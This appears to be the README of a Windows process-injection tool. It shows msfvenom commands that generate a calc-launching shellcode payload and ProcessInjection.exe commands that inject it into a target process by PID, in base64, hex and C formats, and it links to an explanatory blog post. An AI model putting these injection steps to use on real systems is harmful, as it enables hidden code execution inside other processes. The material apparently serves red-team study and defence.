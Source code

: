 # ProcessInjection

----

The program is designed to inject shellcode in a target process.

Currently the program accepts shellcode in 3 formats 
	
	1) base64
	2) hex
	3) C

### Command Line Usage

    Generating shellcode in base64 format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" | base64
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:base64

	Generating shellcode in hex format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f hex
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:hex

	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f c
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:c

### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)
